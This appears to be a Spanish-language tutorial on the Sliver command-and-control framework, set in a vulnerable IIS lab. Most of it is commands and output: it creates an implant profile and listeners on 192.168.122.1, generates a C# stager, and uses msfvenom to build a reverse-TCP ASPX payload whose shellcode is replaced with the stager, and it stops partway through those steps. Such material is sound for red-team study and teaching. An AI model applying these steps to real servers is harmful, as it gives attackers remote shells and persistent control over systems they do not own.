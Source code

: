 Los `profiles` funcionan como un _blueprint_ de configurción, se utiliza cuando vamos a utilizar distintos payloads pero con  la misma configuración, veamos un ejemplo:

Estamos en un laboratorio vulnerable con IIS, donde pudimos explotar un RCE, que en vez de subir/ejecutar una reverse shell en crudo, podemos subir un stager para empezar a utilizar nuestro C2. Para esta tarea, primero creamos el profile utilizando nuestra dirección IP y nuestro puerto a la escucha.

```js
sliver > profiles new --http 192.168.122.1:8080 --format shellcode Mandarina

[*] Saved new implant profile Mandarina
```

Luego, configuramos el `stage-listener` para que esté atento a la conexión que genere nuestro `stager`. _El puerto utilizado debe ser distinto al del profile, el stage listener lo estamos configurando para recibir la conexión inicial del stager que con el profile, le estamos indicando el payload en formato shellcode que genere la conexión a la dirección 192.168.122.1 en el puerto 8080._

```js
sliver > stage-listener --url tcp://192.168.122.1:1110 --profile Mandarina

[*] No builds found for profile Mandarina, generating a new one
[*] Sliver name for profile Mandarina: HIGH_RISER
[*] Job 1 (tcp) started
```

Ahora, debemos iniciar el servidor `HTTP` para comunicarnos con el implante.

```js
sliver > http -L 192.168.122.1 -l 8080

[*] Starting HTTP :8080 listener ...
[*] Successfully started job #3
```

Y creamos el stager en el formato que necesitemos (el puerto debe ser el mismo que estamos configurando en el `stage-listener` para realizar la conexión inicial)

```js
sliver > generate stager --lhost 192.168.122.1 --lport 1110 --format csharp --save stager.shellcode
[*] Sliver implant stager saved to: /home/SomeName/stager.shellcode
```

Ahora, esto generará el shellcode necesario para comunicarse con el C2, pero aún necesitamos una vía para ejecutarlo, para la tarea podemos utilizar msfvenom para generar un template y luego cambiar el shellcode:

```js
❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.122.1 LPORT=1110 -f aspx > tasks.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2844 bytes
```

Si examinamos el archivo, notaremos que tiene una sección con el shellcode, pero ese shellcode lo tenemos que reemplazar por el que esté en `stager.shellcode`.  _Sólo tienes que copiar y pegar desde el new byte y el shellcode, el byte random-name es generado por msfvenom pero es utilizado dentro de la lógica del aspx, no lo cambies._
